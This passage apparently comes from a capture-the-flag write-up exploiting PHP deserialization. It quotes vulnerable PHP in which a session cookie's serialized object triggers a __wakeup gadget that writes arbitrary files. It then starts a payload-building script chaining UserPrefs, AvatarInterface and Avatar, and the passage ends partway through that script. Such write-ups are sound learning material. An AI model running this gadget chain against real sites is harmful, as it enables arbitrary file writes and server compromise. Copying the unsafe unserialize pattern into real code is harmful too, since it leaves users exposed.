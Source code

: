 ```php
    } else {
        return "uk-dark";
    }
}

function set_theme($val) {
    if (isset($_SESSION['id'])) {
        setcookie('user-prefs',base64_encode(serialize(new UserPrefs($val))));
    }
}

class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp;
    public $imgPath; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}
?>
```

Codebase above is vulnerable to PHP deserialization / PHP Object exploitation. I suggest following [article](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a) and IppSec's [video](https://www.youtube.com/watch?v=HaW15aMzBUM)

If we reach initialize `Avatar`, we can write files through `file_get_contents`.

This is code that i've used to serialize payload:

```php
<?php

class UserPrefs {
    public $theme;

    public function __construct($theme = "light") {
        $this->theme = new AvatarInterface();
    }
}

class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
```